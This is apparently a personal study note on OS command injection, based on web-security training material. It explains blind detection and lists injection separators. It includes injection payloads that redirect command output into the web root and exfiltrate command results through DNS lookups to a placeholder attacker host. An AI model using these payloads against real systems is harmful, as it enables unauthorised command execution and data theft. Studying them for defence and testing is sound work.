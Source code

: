 # Os Command Injection

![](https://github.com/DK9510/Img/blob/main/RCE.png)
![[os-Command-Injection.png]]
## what is OS command injection 
* OS command injection is also known as shell injection or RCE
* it is vulnerability that allow an attacker to execute any command on the system and take full control of the server.
* attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.
* the vulnerability may present at any parameter that may directly supply it to the internal shell but we need some proxy to check that it may interact with the hidden parameter or in the API request.

# find and exploit os-command injection vulnerability

## Use full command
|Purpose |Linux|Windows|
|---|---|---|
|name of current user|'whoami'|'whoami'|
|OS| 'uname -a'|'ver'|
|Network configuration|'ifconfig'or'ipaddr|'ipconfig/all'|
|Network Connection|'nestat -an'|'netstat -an'|
|Running Process|'ps -ef'|'tasklist'|

## Blind Command injection vulnerability 
* many instance of os COmmand injection are blind vulnerabilities, means application does not return output from the command with http response.
* Consider a web site that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the `mail` program with the submitted details. For example: 
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`

## Detecting Blind OS Command Injection using Time Delay.
* for generating time delay the `ping` command is use full because it send number of ICMP packet so to complete this command application takes time and delay generates in the application response time.
* put `|| && ` like terminal command ending or ';' to terminate the command or giving error, analyze more and try to exploit RCE.

## Exploiting Bling RCE BY Redirecting output
* You can redirect the output from the injected command into a file within the web root that you can then retrieve using your browser. For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input:
`& whoami > /var/www/static/whoami.txt &`

* You can then use your browser to fetch `https://vulnerable-website.com/whoami.txt` to see the output;
## Exploiting blind OS command injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques)

### Blind-os command injection Out-of-band interaction
* You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.
* `& nslookup kgji2ohoyw.web-attacker.com &`
* use burp Collaborator for OAST.

### Blind-os-command injection Out-Of-band data exfiltration.
* ``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`` payload here in between \`\`we can add our command and execute lookup.
* response in collaborator  `wwwuser`.id.collaborator.net

## ways of injection OS commands
* \&
* \&\&
* |
* ||

only unix-based os 
* \;
* Newline(0x0a or \\n)

On Unix-based system we use
`` `command` or $(command)``
